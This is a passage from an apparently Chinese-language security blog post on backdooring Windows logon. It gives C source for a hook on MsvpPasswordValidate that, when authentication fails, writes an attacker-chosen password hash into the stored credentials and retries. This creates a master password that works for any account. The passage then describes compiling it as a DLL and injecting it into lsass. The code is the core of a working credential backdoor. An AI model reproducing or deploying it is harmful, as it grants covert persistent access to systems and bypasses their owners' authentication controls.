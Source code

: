2.设置特定密码 这里就是可以通过拿一个 hash 赋值进去。

```plain
BOOLEAN HookMSVPPValidate(BOOLEAN UasCompatibilityRequired,
    NETLOGON_LOGON_INFO_CLASS LogonLevel,
    PVOID LogonInformation,
    void* Passwords,
    PULONG UserFlags,
    PUSER_SESSION_KEY UserSessionKey,
    PVOID LmSessionKey) {
    NETLOGON_LOGON_IDENTITY_INFO* logonIdentity = (NETLOGON_LOGON_IDENTITY_INFO*)LogonInformation;
    BOOLEAN Login_IF;
    if (MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey)) {
        return TRUE;
    }
    else {
        const unsigned char pass[] = { 你的 hash };
        for (int i = 0; i < 16; i++) {
            ((unsigned char*)Passwords)[i] = pass[i];
        }
        return MsvpPasswordValidate(UasCompatibilityRequired, LogonLevel, LogonInformation, Passwords, UserFlags, UserSessionKey, LmSessionKey);
    }
}
```

首先来测试第一种方式。  
[![](assets/1708919560-18ee75f2d9791ed3c3c362945eecb7f7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204170915-11980592-c33d-1.png)  
编译之后，通过 Process 该工具将 dll 注入到 lsass 中  